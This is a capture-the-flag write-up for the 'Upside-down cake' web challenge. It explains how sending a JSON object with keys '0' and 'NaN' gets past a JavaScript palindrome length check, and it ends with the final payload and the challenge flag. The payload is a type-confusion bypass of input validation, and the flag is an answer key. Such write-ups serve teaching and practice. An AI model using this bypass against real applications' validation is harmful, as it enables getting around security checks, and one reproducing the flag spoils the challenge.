


# Upside-down cake
> I checked 413 times to see if the settings are correct.

## About the Challenge
We were given a source code (You can download the source code [here](upside-down_cake.tar.gz)) where we can check if our input is "palindrome" or not



To get the flag we need to input the "palindrome" string which has 1000 characters

```javascript
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

At first, I thought we needed to input `"a"*1000"`. Isn't this challenge too easy?" Not at all. If you check the nginx configuration, you can see that there's a limitation where we can only input 100 characters in the HTTP Body.

```
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```

## How to Solve?
First, we have to bypass the character length check

```javascript
if (string.length < 1000) {
	return 'too short';
}
```

How to do that? Instead of input a string nor an array, we need to input JSON inside the palindrome value, for example

```json
{
    "palindrome": {
        "test":"test"
    }
}
```


We have bypassed the length check, and now we need to input a "palindrome" string. To do this, i wrote a simple code to debug the `validatePalindrome()` function in my computer

```javascript
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}
 
	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		console.log("Original: " + original)
		console.log("Reverse: " + reverse)

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return 1;
}

const test = {"test":"test"};

console.log(validatePalindrome(test));
```

And if you run the code, the output will be

```
Original: undefined
Reverse: undefined
not palindrome
```

Why is it `undefined`? That's because we input JSON instead of an array or a string, for example:

```javascript
test1 = "test"
test2 = ["test"]
test3 = {"test":"test"}

console.log(test1[0]) //Output: t
console.log(test2[0]) //Output: test
console.log(test3[0]) //Output: undefined
```

To make the code output the string you input instead of `undefined`, you can provide input as `{"0":"a"}`. Wait, how? Here's another example:

```javascript
const test = {"0":"a"};
console.log(test[0])
```

The output will be `a` because we're accessing the property with the key `0` in the object `test` using bracket notation, and that property contains the value `a`.

If we recode the our code again, the output will be:

```
Original: a
Reverse: undefined
not palindrome
```

If you recheck the `reverse` part

```javascript
const reverse = string[string.length - i - 1];
```

The output will be `undefined`, why? That's because the value of `string.length` is `undefined`

```javascript
console.log(undefined - 1) // NaN
```

Then provide the second key-value pair, `"NaN":"a"` (the explanation is the same as above). And the final payload will be

```json
{"palindrome":{"0":"a","NaN":"a"}}
```



```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```